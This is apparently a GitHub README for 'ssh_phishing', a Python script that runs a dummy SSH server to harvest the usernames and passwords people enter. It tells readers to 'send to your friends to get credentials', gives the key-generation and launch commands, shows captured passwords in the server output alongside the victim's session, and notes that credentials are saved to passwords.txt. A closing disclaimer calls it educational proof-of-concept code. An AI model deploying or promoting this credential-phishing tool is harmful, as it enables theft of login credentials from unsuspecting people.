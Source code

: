# ssh_phishing

A python script that creates a dummy ssh server. Send to your friends to get credentials.

To generate a key use: `ssh-keygen -t rsa -b 4096 -C 'bre@rodri.guez' -f rsa_key`

Run with the key file and port as argument: `python3 ssh_phishing.py rsa_key 6666`

### The server
```
$ python ssh_phishing.py rsa_key 6666
Waiting for connections on port 6666...
Connection from: 127.0.0.1
Waiting for authentication...
Username: m.user
Password: my_pass
------------------------------
Username: m.user
Password: 123456
------------------------------
Username: m.user
Password: 123456
```

### The victim
```
$ ssh m.user@localhost -p 6666
m.user@localhost's password: 
Permission denied, please try again.
m.user@localhost's password: 
Permission denied, please try again.
m.user@localhost's password: 
m.user@localhost: Permission denied (password).
$
```

Output is saved to a file in the current working directory called `passwords.txt`.

# Ethical Warning and Responsibility Disclaimer

**Important:** This repository contains proof-of-concept (PoC) code intended solely for educational and research purposes. The misuse of this code for malicious activities, including but not limited to phishing, unauthorized hacking, or any form of security compromise, is strictly prohibited.

The author of this repository does not endorse, support, or encourage any illegal or harmful activities. By accessing and using this code, you agree to do so in accordance with the applicable laws and regulations in your jurisdiction.

**Disclaimer of Responsibility:**
- This code is provided "as is," without any express or implied warranties of any kind.
- The author assumes no responsibility for damages, legal or otherwise, arising from the use of this code.

Please use this code ethically and legally, respecting the privacy and security of others.
